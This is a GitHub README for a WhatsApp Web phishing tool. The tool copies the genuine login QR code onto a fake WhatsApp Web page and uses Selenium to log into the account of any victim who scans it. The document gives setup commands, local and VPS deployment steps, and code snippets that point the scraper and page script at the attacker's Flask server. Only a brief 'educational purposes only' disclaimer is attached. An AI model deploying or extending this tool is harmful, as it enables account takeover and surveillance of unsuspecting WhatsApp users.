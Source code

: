 **WhatsApp Web Phishing Tool (NEEDS REWORKING & UPDATING , SOON ....)**

A fun and educational project that demonstrates how a phishing attack could work by leveraging WhatsApp Web's QR code authentication. This tool works by:
- Extracting the QR code from the official WhatsApp Web login page.
- Injecting the QR code into a fake phishing site designed to look like the official WhatsApp Web page.
- Running an automated Selenium browser to simulate a login attempt on WhatsApp Web when a victim scans the fake QR code.

If a user scans the injected QR code and logs in, the automated Selenium browser successfully logs into the victim's account.

**Tech Stack:**
- Ubuntu (Operating System)
- Python3 (Programming Language)
- Firefox Selenium Browser (Web Automation)
- Flask (Web Framework)

**Description of Folder Structure**

- local/: This folder contains everything needed to run the tool locally. The Flask server and the scraper will both run on the same machine.

- remote/: This folder is for running the Flask server on a remote server while keeping the scraper running locally. You will need to adjust the IP address and port in both static/script.js and scraper.py to match your server's configuration.

**Setup Instructions
Prerequisites**

Before running the tool, ensure that you have the following installed:

Firefox: You must delete the snap version of Firefox and install the standard version from Mozilla's repository.

https://www.debugpoint.com/remove-firefox-snap-ubuntu/

https://fosspost.org/how-to-install-firefox-as-a-deb-package-on-ubuntu    
    

GeckoDriver: You will need the GeckoDriver for Selenium to interact with Firefox. Download it from the official repository.

https://github.com/mozilla/geckodriver/releases

Then, move it to the appropriate directory:

    tar -xvzf geckodriver-v0.32.0-linux64.tar.gz
    sudo mv geckodriver /usr/local/bin/
    sudo chmod +x /usr/local/bin/geckodriver

Python Environment: Set up a Python virtual environment and install dependencies:

    python3 -m venv venv
    source venv/bin/activate
    pip3 install -r requirements.txt

**Setup Options
Local Setup:**

Run everything locally on your machine (it will be limited to your home network and may face issues with tunneling services like ngrok or router port forwarding.

    Navigate to the local/ folder.
    Run the Flask server by executing the following command:

    python3 app.py

    The Flask server and scraper will both run on your local machine.

**Remote Setup:**

After installing the requirements, run the server on a VPS for a public IP address adjust the scraper to use the VPS's public IP and run the scraper locally.

    First, run the Flask server on the remote machine.
    python3 app.py
    
    In the remote/ folder, adjust the IP address and port in the following files to match the remote server's configuration:
        static/script.js:

    socket.on('new-qr-code', (data) => {
      let url = 'http://127.0.0.1:5000/static/qr_code.png?t=' + Date.now();
      let imageElement = document.getElementById('qr-code');
      imageElement.setAttribute("src", url);
    });

adjust on your local machine scraper.py:

    def notify_server_qr_code():
        url = "http://ip_address_of_remote_flask_server_running_on_vps:5000/qr_code_updated"
        response = requests.post(url)

    def notify_server_user_logged_in():
      url = "http://ip_address_of_remote_flask_server_running_on_vps:5000/user_logged_in"
      
    def send_qr_code_to_server():
      url = "http://ip_address_of_remote_flask_server_running_on_vps:5000/upload"

After adjusting the IP address, run the scraper on your local machine:

    python3 scraper.py

**Notes:**
- Local Setup: No need to modify IPs or ports if everything is running on the same machine.
- Remote Setup: Modify the 127.0.0.1:5000 IP addresses in both script.js and scraper.py to match the remote server's address.
- Selenium Browser: Ensure that the Selenium browser is running continuously during scraping. If it crashes, you will need to restart the process to resume operations. Sorry for the inconvenience! :(

Running the Tool
- For Local Setup: After setting up everything, simply run the Flask app by using python3 app.py and the tool will be fully operational on your local machine.

- For Remote Setup: Make sure the server is running first, adjust IP addresses in both script.js and scraper.py, and then start the scraper.

  **Warning: This tool is intended for educational purposes only. Do not use it for malicious activities.**
  
![alt text](https://github.com/levo-777/whats_app_qr_code_phisher/blob/main/WhatsAppQRPhisher.png)
